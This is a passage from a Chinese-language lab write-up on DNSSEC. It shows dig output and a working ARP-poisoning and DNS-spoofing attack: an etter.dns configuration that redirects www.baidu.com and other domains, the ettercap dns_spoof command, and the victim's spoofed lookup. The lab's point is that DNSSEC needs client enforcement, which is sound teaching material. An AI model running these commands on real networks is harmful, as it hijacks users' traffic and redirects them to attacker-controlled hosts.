 ```
                541xTiVcUiGqpMmveUnC4FI287ut8mVB9ogMfcw= )

;; Query time: 0 msec
;; SERVER: 127.0.1.1#53(127.0.1.1)
;; WHEN: Sun Jan 03 01:50:57 CST 2016
;; MSG SIZE  rcvd: 429

```

我们可以看到，在即使均加入+dnssec选项时，只有dnssectest.sidnlabs.nl这个域名返回了DNSSEC的RRSIG记录。

<a name='attack'></a>
#####步骤3.实施攻击
1. 准备工作。配置ettercap的DNS劫持选项。

    在Kali里打开/etc/ettercap/etter.dns 加入如下内容
        
        www.baidu.com A 202.205.16.2
        www.cuc.edu.cn A 202.205.16.2
        dnssectest.sidnlabs.nl A 202.205.16.2


2. 实施攻击

    在Kali中执行

        ettercap -i eth0 -T -q -P dns_spoof -M ARP:remote /// ///

    备注
    *   攻击同时利用了ARP欺骗攻击，使得受害者的流量可以从中间人走过，从而修改流量。
    *   也可以使用`ettercap -G`使用ettercap的GUI。请注意加载dns_spoof插件。


#####步骤4. 查看当前的DNS解析记录。(被劫持后，客户端没有采用DNSSEC强制政策)


**重要说明：DNSSEC的保障同时需要客户端的支持。如果客户端没有强制要求DNSSEC的话，那么对于即使部署了DNSSEC的服务器，也不会强制请求DNSSEC有关的记录，导致DNSSEC的起不到保护客户端的作用。**


在受害者上执行

```
$dig www.baidu.com +dnssec +multiline
```

```
; <<>> DiG 9.9.5-3ubuntu0.3-Ubuntu <<>> www.baidu.com +dnssec +multiline
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 31931
;; flags: qr aa ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;www.baidu.com.     IN A

;; ANSWER SECTION:
www.baidu.com.      3600 IN A 202.205.16.2

;; Query time: 1 msec
;; SERVER: 127.0.1.1#53(127.0.1.1)
;; WHEN: Sun Jan 03 02:33:08 CST 2016
;; MSG SIZE  rcvd: 47
```
